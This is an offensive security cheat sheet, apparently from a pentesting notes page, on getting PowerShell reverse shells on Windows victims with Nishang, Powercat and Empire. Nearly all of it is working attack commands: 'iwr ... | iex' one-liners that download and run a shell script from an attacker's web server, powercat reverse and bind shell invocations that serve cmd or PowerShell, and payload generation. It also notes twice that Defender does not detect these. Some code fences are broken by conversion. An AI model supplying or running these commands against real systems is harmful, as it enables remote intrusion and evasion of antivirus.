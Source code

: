 ```

### PS-Nishang

[[https://github.com/samratashok/nishang|https://github.com/samratashok/nishang]]

In the **Shells** folder, there are a lot of different shells. To download and execute Invoke-_PowerShellTcp.ps1_ make a copy of the script and append to the end of the file:

```
Invoke-PowerShellTcp -Reverse -IPAddress 10.2.0.5 -Port 4444
```
```
Start serving the script in a web server and execute it on the victim's end:

```
powershell -exec bypass -c "iwr('http://10.11.0.134/shell2.ps1')|iex"
```
```
Defender doesn't detect it as malicious code (yet, 3/04/2019).

**TODO: Check other nishang shells**

### **PS-Powercat**

[[https://github.com/besimorhino/powercat|**https://github.com/besimorhino/powercat**]]

Download, start a web server, start the listener, and execute it on the victim's end:

```
 powershell -exec bypass -c "iwr('http://10.2.0.5/powercat.ps1')|iex;powercat -c 10.2.0.5 -p 4444 -e cmd"
```
```
Defender doesn't detect it as malicious code (yet, 3/04/2019).

**Other options offered by powercat:**

Bind shells, Reverse shell (TCP, UDP, DNS), Port redirect, upload/download, Generate payloads, Serve files...

```
Serve a cmd Shell:
    powercat -l -p 443 -e cmd
Send a cmd Shell:
    powercat -c 10.1.1.1 -p 443 -e cmd
Send a powershell:
    powercat -c 10.1.1.1 -p 443 -ep
Send a powershell UDP:
    powercat -c 10.1.1.1 -p 443 -ep -u
TCP Listener to TCP Client Relay:
    powercat -l -p 8000 -r tcp:10.1.1.16:443
Generate a reverse tcp payload which connects back to 10.1.1.15 port 443:
    powercat -c 10.1.1.15 -p 443 -e cmd -g
Start A Persistent Server That Serves a File:
    powercat -l -p 443 -i C:\inputfile -rep
```
```
### Empire

[[https://github.com/EmpireProject/Empire|https://github.com/EmpireProject/Empire]]

Create a powershell launcher, save it in a file and download and execute it.

```
powershell -exec bypass -c "iwr('http://10.2.0.5/launcher.ps1')|iex;powercat -c 10.2.0.5 -p 4444 -e cmd"
```
```
